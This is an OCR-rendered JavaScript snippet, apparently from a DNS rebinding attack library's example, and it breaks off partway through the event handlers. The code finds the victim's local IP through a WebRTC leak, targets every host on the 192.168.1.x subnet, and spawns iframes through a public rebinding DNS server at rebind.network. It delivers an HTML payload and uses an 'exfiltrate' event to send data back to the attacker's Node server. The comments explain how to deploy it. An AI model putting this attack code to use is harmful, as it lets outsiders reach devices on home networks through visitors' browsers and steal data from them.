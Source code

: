 ```
    // targetting all IP addresses from 192.168.1.1-255
    DNSRebindAttack.getLocalIPAddress()
    .then(ip =&gt; launchRebindAttack(ip))
    .catch(err =&gt; `{`
        console.error(err)
        // Looks like our nifty WebRTC leak trick didn't work (doesn't work
        // in some browsers). No biggie, most home networks are 192.168.1.1/24
        launchRebindAttack('192.168.1.1')
    `}`)

    function launchRebindAttack(localIp) `{`

        // convert 192.168.1.1 into array from 192.168.1.0 - 192.168.1.255
        const first3Octets = localIp.substring(0, localIp.lastIndexOf('.'))
        const ips = [...Array(256).keys()].map(octet =&gt; `$`{`first3Octets`}`.$`{`octet`}``)

        // The first argument is the domain name of a publicly accessible
        // whonow server (https://github.com/brannondorsey/whonow).
        // I've got one running on port 53 of rebind.network you can to use.
        // The services you are attacking might not be running on port 80 so 
        // you will probably want to change that too.
        const rebind = new DNSRebindAttack('rebind.network', 80)

        // Launch a DNS Rebind attack, spawning 255 iframes attacking the service
        // on each host of the subnet (or so we hope).
        // Arguments are:
        //  1) target ip addresses
        //  2) IP address your Node server.js is running on. Usually 127.0.0.1
        //     during dev, but then the publicly accessible IP (not hostname)
        //     of the VPS hosting this repo in production.
        //  3) the HTML payload to deliver to this service. This HTML file should
        //     have a DNSRebindNode instance implemented on in it.
        //  4) the interval in milliseconds to wait between each new iframe
        //     embed. Spawning 100 iframes at the same time can choke (or crash)
        //     a browser. The higher this value, the longer the attack takes,
        //     but the less resources it consumes.
        rebind.attack(ips, '127.0.0.1', 'examples/payload.html', 200)

        // rebind.nodes is also an EventEmitter, only this one is fired using
        // DNSRebindNode.emit(...). This allows DNSRebindNodes inside of
        // iframes to post messages back to the parent DNSRebindAttack that
        // launched them. You can define custome events by simply emitting
        // DNSRebindNode.emit('my-custom-event') and a listener in rebind.nodes
        // can receive it. That said, there are a few standard event names that
        // get triggered automagically:
        //  - begin: triggered when DNSRebindNode.js is loaded. This signifies
        //    that an attack has been launched (or at least, it's payload was
        //    delivered) against an IP address.
        //  - rebind: the DNS rebind was successful, this node should now be
        //    communicating with the target service.
        //  - exfiltrate: send JSON data back to your Node server.js and save
        //    it inside the data/ folder.
        // Additionally, the DNSRebindNode.destroy() static method
        // will trigger the 'destory' event and cause DNSRebindAttack to
        // remove the iframe.

        rebind.nodes.on('begin', (ip) =&gt; `{`
            // the DNSRebindNode has been loaded, attacking ip
        `}`)

        rebind.nodes.on('rebind', (ip) =&gt; `{`
            // the rebind was successful
            console.log('node rebind', ip)
```